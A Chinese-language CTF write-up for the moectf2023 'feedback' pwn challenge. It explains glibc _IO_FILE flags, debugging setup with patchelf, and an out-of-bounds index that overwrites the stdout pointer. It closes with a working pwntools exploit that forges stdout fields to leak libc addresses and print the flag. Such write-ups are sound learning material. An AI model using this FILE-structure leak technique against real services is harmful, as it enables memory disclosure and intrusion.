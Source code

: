 ```yaml
---
title: moectf2023 - feedback
date: 2023/9/27 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - IO arb write
excerpt: 利用`_IO_FILE`结构体漏洞，通过修改stdout指针实现读取flag。
---
```


## 文件分析

下载`feedback`, 保护全开  
ghidra分析为64位程序

缓冲区没有溢出，所以没法利用栈溢出等，因为可以访问stdout等，故利用`_IO_FILE`  
本题是我第一次做`_IO_FILE`，详细写写

## 前置知识

`_IO_FILE`中存在`_flags`，各标志位含义如下

```c
/* Magic numbers and bits for the _flags field.
   The magic numbers use the high-order bits of _flags;
   the remaining bits are available for variable flags.
   Note: The magic numbers must all be negative if stdio
   emulation is desired. */
#define _IO_MAGIC 0xFBAD0000 /* Magic number */
#define _OLD_STDIO_MAGIC 0xFABC0000 /* Emulate old stdio. */
#define _IO_MAGIC_MASK 0xFFFF0000
#define _IO_USER_BUF 1 /* User owns buffer; don't delete it on close. */
#define _IO_UNBUFFERED 2
#define _IO_NO_READS 4 /* Reading not allowed */
#define _IO_NO_WRITES 8 /* Writing not allowd */
#define _IO_EOF_SEEN 0x10
#define _IO_ERR_SEEN 0x20
#define _IO_DELETE_DONT_CLOSE 0x40 /* Don't call close(_fileno) on cleanup. */
#define _IO_LINKED 0x80 /* Set if linked (using _chain) to streambuf::_list_all.*/
#define _IO_IN_BACKUP 0x100
#define _IO_LINE_BUF 0x200
#define _IO_TIED_PUT_GET 0x400 /* Set if put and get pointer logicly tied. */
#define _IO_CURRENTLY_PUTTING 0x800
#define _IO_IS_APPENDING 0x1000
#define _IO_IS_FILEBUF 0x2000
#define _IO_BAD_SEEN 0x4000
#define _IO_USER_LOCK 0x8000
```

pwn中常用0xfbad1800

puts, sprintf, printf等包装函数，最后都会调用write，可以对stdout结构体进行修改，
实现leak；其中结构体中的`_chain`，在stdout中会指向stdin；在执行包装输出函数前，
会打印`_IO_write_base`到`_IO_write_ptr`范围内的字符；初始化后`_IO_write_*`
会指向结构体中的`_shortbuf`，通过覆盖最后一个字节，可以将base指向`_chain`

## 踩过的坑

一开始在我本地上跑的时候，flag是无法写入的:
read函数返回-1(val of rax)，使用`p *__errno_location()`查询errno得知，
14: Bad Address，本身读入的地址就没有w权限

后来发现zip包里含有ld和libc，
可以patchelf（这里我把这两各文件放在./libs下）

{% note tip fa-circle-arrow-right %}
Arch Linux可以直接pacman(yay)安装patchelf哦
{% endnote %}

gdb中要重启程序不需要q，先kill再run/start即可

```shell
patchelf patchelf --set-interpreter ./libs/ld-2.31.so --replace-needed libc.so.6 ./libs/libc-2.31.so feedback
chmod +x ./libs/* # 一定要+x！不然没有权限执行
```

patch后gdb调试发现这时flag就会放到一个匿名内存段，不会崩溃了

## 解题思路

反汇编后得知，flag放在比`puts`高0x16d2e0的地址，而`puts`的地址是随机化的，
因此可以获取libc中的任意地址然后偏移取得flag地址

在vuln函数中要输入数组索引，而索引被限定为小于4；观察.bss段布局可知，
stdout地址比`feedback_list`低，将索引输入为-8，就可以覆盖stdout写入

gdb调试后可以知道stdin与flag位置的差值

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 37325)

# payload 1
sh.sendline(b'-8') # locate stdout ptr
payload = p64(0xfbad1800) # _flags though 32b data, takes 64b space
payload += p64(0) # _IO_read_ptr，stdout不涉及输入，改成0就可以
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += b'\x08' # _IO_write_base first byte, points to _chain
# write _chain (stdin) out
sh.sendlineafter(b'back.', payload)

flag = u64(sh.recvuntil(b'Your')[1:7]+b'\0\0') - 0x1980 + 0x6700 # get stdin addr and shift to flag addr

# payload 2
sh.sendline(b'-8') # locate stdout ptr
payload = payload[:-1] # remove '\x08'
payload += p64(flag) # _IO_write_base
payload += p64(flag + 0x30) # _IO_write_ptr, unknown flag length, assuming 48
# write flag out
sh.sendlineafter(b'back.', payload)
sh.interactive()
```

Done.
